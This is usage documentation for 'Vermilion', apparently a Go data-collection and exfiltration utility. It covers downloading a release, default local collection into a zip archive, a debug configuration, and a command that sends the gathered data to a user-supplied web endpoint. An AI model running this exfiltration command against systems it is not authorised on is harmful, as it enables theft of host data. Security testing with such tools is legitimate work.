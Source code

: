 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.1.0/vermilion_0.1.0_linux_amd64.tar.gz
tar -xzf vermilion_0.1.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
./vermilion -h
```  

By default no exfiltration is executed, the following two commands are the same:
```console
./vermilion
```
and
```console
vermilion --noexf
```  

both the previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify and endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


